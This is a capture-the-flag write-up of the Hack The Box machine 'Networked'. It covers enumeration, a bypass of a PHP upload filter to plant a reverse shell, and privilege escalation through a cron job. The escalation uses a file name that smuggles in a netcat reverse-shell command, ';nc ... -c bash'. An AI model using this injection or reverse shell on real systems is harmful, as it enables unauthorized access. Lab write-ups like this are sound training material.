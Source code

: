 ```yaml
---
title: HTB - Networked
tags: [Hacking, HTB, Security, Linux, PHP, Easy]
style:
color:
description: Here is my write up for the box Networked via Hackthebox.
---
```


I dont remember exactly when I popped this box, but I believe it was one of the first ones I did.

## 1. Enumeration

Alright, lets get down to it. First things first, nmap scan.

`nmap -Pn -sVC 10.10.10.146`

![nmap](../images/nmap_networked.png "nmap scan")

While that was running, I went ahead and started running both a dirb and nikto scan.

`dirb http://10.10.10.146 -r`

![dirb](../images/dirb_networked.png "dirb scan")

`nikto -h http://10.10.10.146`

![nikto](../images/nikto_networked.png "nikto scan")

## 2. Exploiting PHP

During the enum phase, dirb identified `backup.tar`. Downloading the tar file and unpacking it reveals the workings of `upload.php`. THe `upload.php` file only checks the extension of the file and if its under 60000k.

![upload.php workings](../images/upload_networked.png "upload.php workings")

Since we know how `upload.php` works, we can now upload a reverse shell and bypass the checks by modifying the request via Burp. I used pentestmonkey's handy dandy reverse PHP shell.

![burp modify request](../images/mod_req_networked.png "burp modify request")  

Tada! Reverse shell

![reverse shell as apache](../images/rs_networked.png "reverse shell")

## 3. Privilege Escalation to Guly

Now that we have a shell, its time to enumerate some more. First things first, lets see if `www-data` can run anything as root via the `sudo -l` command.

Bummer :(  
![sudo -l](../images/sudol1_networked.png "sudo -l command")

Going to attempt to transfer `lse.sh` and then run it to see all the interesting things on this machine.

![lse.sh -l1](../images/lse_networked.png "lse.sh")

In the cron jobs section, we notice a job `check_attack`. Reading the contents of this cron job reveals that it checks the uploads folder in the `/var/www/html/uploads` directory. Running `ls -la` on that directory shows we dont have read/write access, but were going to try and touch a file in there anyway.

`touch test.txt`  

![touch test](../images/touch_test_networked.png "touch test")  

Walla! It worked!

Now that we know we can touch a file, lets look at the code in the `check_attack` cron a little more carefully to see if we can exploit this and escalate our privileges. After looking over the code, there is one line that stands out in particularly:

`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`

If we touch a file into the uploads directory with the following name below:

`;nc 10.10.14.85 4445 -c bash`

Everything after the `;` symbol will be treated as a completely separate command. So when the cron job runs, which is being ran under the user Guly, it will execute the nc command then open a shell back on our attacking machine. Alternatively you can touch a file with the name of `test.txt` and then use the `mv` command to change it to the name mentioned above.

Success!

![guly shell](../images/guly_networked.png "guly shell")  

We can find the `user.txt` in its normal spot.

## 4. Privilege Escalation to root

Now that we have a little higher privileges lets do some more enumeration. First things first, checking if we can run anything as root via `sudo`.

`sudo -l`  
![sudo -l](../images/sudol_networked.png "sudo -l command")

Looks like we can run the above command as root. Quick google search?

Googling `changename.sh`, we find that there is a vulnerability that leads us on the path to get root [Vulmon](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f).

Following the instructions about the vulnerability below, we get root. BOOM!

![priv esc to root](../images/root_networked.png "privup to root")


## 5. Conclusion

Overall this was a nice box. For me, the biggest hurdle was moving from www-data to the user Guly. After that it was smooth sailing.

Always remember, enumeration is your best friend! So is Google.
